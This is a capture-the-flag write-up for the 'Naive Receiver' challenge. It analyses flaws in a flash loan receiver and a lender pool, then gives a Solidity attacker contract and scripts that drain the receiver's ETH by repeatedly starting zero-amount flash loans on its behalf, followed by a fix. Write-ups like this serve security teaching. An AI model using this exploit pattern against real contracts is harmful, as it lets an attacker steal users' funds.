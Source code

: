 # Challenge #0 - Naive Receiver

## Description

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## What we have

We have 2 contracts here:

1. `FlashLoanReceiver.sol`: A naive flash loan receiver?
2. `NaiveReceiverLenderPool`: Flash loan pool offering ETH.

Looking at the contracts, we find these issues:

## Issues in FlashLoanReceiver

### 1. Receiver can receive zero ETH

Adding `require(msg.value > 0)` will fix this.

### 2. Receiver doesn't revert even if no gains are made

Receiver should check if its ETH balance has increase after `_executeActionDuringFlashLoan()` and accordingly `revert` the transaction. Currently, it ends up paying fees even on no gains.

### 3. No reentrancy checks

There is a risk of `pool` doing a reentrancy attack on the receiver. Although if `pool` is trusted, this check might be omitted.

## Issues in NaiveReceiverLenderPool

### 1. Anyone can initiate flashloan for `borrower`

## Solution

The secret to solving this is in issue #2. We can initiate 10 flash loans, and each time receiver will pay 1 ETH as fee, thus completely draining the receiver contract at the end.

This can be done in a single transaction using a contract, or multiple repetiting transactions triggered by a script.

```ts
// The naive solution
for (let i = 0; i < 10; i++)
  await this.pool.flashLoan(this.receiver.address, "0");
```

```js
// The better (cheaper) solution

// Solidity
pragma solidity ^0.8.0;

interface INaiveReceiverLenderPool {
    function flashLoan(address borrower, uint256 borrowAmount) external;
}

contract NaiveAttacker {
    constructor(address _lender, address _receiver) {
        uint repetitions = _receiver.balance / 1 ether;
        for (uint8 i = 0; i < repetitions; i++)
            INaiveReceiverLenderPool(_lender).flashLoan(_receiver, 0);
    }
}
```

```ts
// Test script
const AttackerFactory = await ethers.getContractFactory("NaiveAttacker");
await AttackerFactory.deploy(this.pool.address, this.receiver.address);
```

## Probable Fix

Checking if the gains made were worth the flashloan fees (and the gas fees submitted at transaction), and reverting if it didn't, would have fixed this.
